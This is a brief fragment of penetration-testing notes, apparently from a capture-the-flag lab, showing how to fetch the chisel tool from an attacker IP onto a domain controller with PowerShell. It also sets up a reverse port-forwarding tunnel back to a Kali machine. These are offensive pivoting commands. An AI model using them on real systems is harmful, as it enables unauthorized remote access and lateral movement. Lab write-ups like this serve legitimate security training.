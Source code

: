- Upload chisel `iwr -uri http://10.10.14.61/chisel.exe -Outfile chisel.exe`
on kali
`chisel server -p 9999 --reverse`

on DC
`.\chisel.exe client 10.10.14.61:9999 R:9090:127.0.0.1:9090`
` chisel client IP_ATTACK:PORT R:PORT_Available_Tunnel:Localhost:Port_To_Share`

Website